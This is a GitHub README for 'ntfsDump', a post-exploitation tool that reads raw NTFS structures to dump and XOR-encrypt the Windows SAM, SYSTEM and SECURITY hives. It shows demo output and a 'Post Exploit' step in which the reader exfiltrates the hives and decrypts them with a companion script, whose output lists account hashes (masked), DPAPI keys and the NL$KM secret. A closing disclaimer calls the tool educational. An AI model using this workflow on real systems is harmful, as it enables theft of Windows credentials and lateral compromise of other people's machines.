 # ntfsDump
Use to copy a file from an NTFS partitioned volume by reading the raw volume and parsing the NTFS structures.
Give the credit to 3gstudent, who wrote the original code.
I've just added the ability to automatically dump SAM, SYSTEM and SECURITY. All encrypted with an XOR key.

Similar to: https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1

Reference: https://www.codeproject.com/Articles/81456/An-NTFS-Parser-Lib

# Demo 
```powershell
.\ntfsDump.exe Yolo
[+] POC NTFSDUMP - Dump Windows Secrets using NTFS


[*] Try to parse root directory
[*] Try to find subdirectory
[*] Try to dump C:\Windows\System32\config\SAM
    source file size:65536
[*] All done.

[*] Try to parse root directory
[*] Try to find subdirectory
[*] Try to dump C:\Windows\System32\config\SYSTEM
    source file size:13631488
    start reading through the while loop
    remaining:13631488...12582912...11534336...10485760...9437184...8388608...7340032...6291456...5242880...4194304...3145728...2097152...1048576...
[*] All done.

[*] Try to parse root directory
[*] Try to find subdirectory
[*] Try to dump C:\Windows\System32\config\SECURITY
    source file size:65536
[*] All done.

Enjoy !
```

# Post Exploit
You can then exfiltrate the encrypted hives, and use another python code I've made to make it easier to extract the secrets:

```python
python .\Dumpy.py C:\SAM C:\SYSTEM C:\SECURITY Yolo
Decrypting C:\SYSTEM: 100%|███████████████████████████████████████████████████████| 13.6M/13.6M [00:01<00:00, 8.90MB/s]

Decrypting C:\SAM: 100%|██████████████████████████████████████████████████████████████████| 65.5k/65.5k [00:00<?, ?B/s]

Decrypting C:\SECURITY: 100%|█████████████████████████████████████████████████████| 65.5k/65.5k [00:00<00:00, 4.25MB/s]

Bootkey : ********************************

Administrator:500:aad3b435b51404eeaad3b435b51404ee:********************************:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:********************************:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:********************************:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:********************************:::
windobe:1000:aad3b435b51404eeaad3b435b51404ee:********************************:::
wuentin:1001:aad3b435b51404eeaad3b435b51404ee:********************************:::
dpapi_machinekey:****************************************
dpapi_userkey::****************************************
 0000   7D 0D BC AE 65 79 DF 36  74 6B 50 71 49 37 9A 42   }...ey.6tkPqI7.B
 0010   C0 51 68 61 9D 42 C9 61  C5 CE 88 2F E1 DB C7 CD   .Qha.B.a.../....
 0020   FB 41 11 EF 4D 14 D1 3A  2B 66 48 A8 19 95 29 9F   .A..M..:+fH...).
 0030   D0 50 AF BE 15 76 F0 21  D0 5C DF 46 71 66 8A 0F   .P...v.!.\.Fqf..
NL$KM:********************************************************************************************************************************
```
[Dumpy](https://github.com/Wuentin/Dumpy)

Ethical Only
The intended use of this program is strictly for educational purposes, promoting ethical understanding and responsible learning in the realm of cybersecurity. This tool is not meant for any malicious activities or unauthorized access.
Using this tool against hosts that you do not have explicit permission to test is illegal. You are responsible for any trouble you may cause by using this tool.
